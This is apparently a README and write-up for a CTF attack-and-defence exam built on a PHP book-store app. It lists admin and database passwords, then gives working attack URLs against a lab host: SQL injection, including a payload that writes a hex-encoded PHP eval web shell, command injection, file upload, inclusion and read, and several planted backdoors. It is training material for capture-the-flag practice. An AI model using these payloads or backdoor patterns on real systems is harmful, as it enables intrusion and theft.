 # Yunxi_AWD_exam
2023/12/24 Yunxi AWD Exam

awd平台使用github开源平台，代码自行修改启动题目

本题目基于2023年国赛西南赛区半决赛book改编

wp：
后台密码：mama123  30e32fcd467fcb2e9910636b99b49a4d171be7f3

数据库密码：root

sql注入1：http://192.168.153.128:8801/book.php?bookisbn=1

sql注入2：http://192.168.153.128:8801/admin_edit.php?bookisbn=1

```
http://192.168.153.128:8802/book.php?bookisbn=1' union select 1,2,3,4,load_file("/flag"),6,7,8%23
```

```
http://192.168.153.128:8802/book.php?bookisbn=1' 'union select 1,0x3c3f70687020406576616c28245f504f53545b627468636c735d293b3f3e,3,4,5,6,7,8 into outfile '/tmp/sql.php'%23
```

命令执行：http://192.168.153.128:8801/functions/database_functions.php?target=127.0.0.1|cat /flag

任意文件上传：http://192.168.153.128:8801/admin_add.php

任意文件包含：http://192.168.153.128:8801/index.php?file=

任意文件读取：http://192.168.153.128:8801/?file=php://filter/read=convert.base64-encode/resource=/flag

默认后门：http://192.168.153.128:8801/bootstrap/test/bypass_disablefunc.php?cmd=cat%20/flag&outpath=/tmp/xx&sopath=/var/www/html/bootstrap/test/bypass_disablefunc_x64.so

图片马后门：http://192.168.153.128:8801/bootstrap/img/2.jpg

加密后门：http://192.168.153.128:8801/obs.php

隐藏后门：http://192.168.153.128:8801/.a.php
